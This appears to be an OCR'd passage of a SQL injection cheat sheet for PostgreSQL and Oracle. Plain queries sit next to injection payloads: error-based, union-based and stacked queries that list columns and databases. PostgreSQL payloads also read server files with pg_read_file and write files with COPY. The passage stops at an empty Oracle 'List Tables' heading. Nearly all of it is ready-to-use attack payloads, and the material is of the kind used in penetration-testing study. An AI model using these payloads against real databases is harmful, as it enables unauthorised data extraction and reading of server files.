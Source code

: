 #### List columns:
Normal
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name';
```
Error based
```sql
' (SELECT CAST((SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name' LIMIT 1 OFFSET 1) AS integer))--
```
Union Based
```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'table_name' --
```
Stacked Queries:
```sql
; SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name'; --
```

#### Read Files:

Normal
```sql
SELECT pg_read_file('/path/to/file', 0, 1000000);
```
SQLi
```sql
' UNION SELECT pg_read_file('/path/to/file', 0, 1000000), NULL --
```

#### Write Files:
Normal
```sql
COPY table_name TO '/path/to/file' DELIMITER ',' CSV HEADER;
```

## ORACLE

#### List databases:

Normal
```sql
SELECT name FROM v$database;
```

Error based
```sql
' AND (SELECT COUNT(*) FROM v$database) --
```
Union Based
```sql
' UNION SELECT name, NULL FROM v$database --
```
Stacked Queries:
```sql
; SELECT name FROM v$database; --
```
#### List Tables:
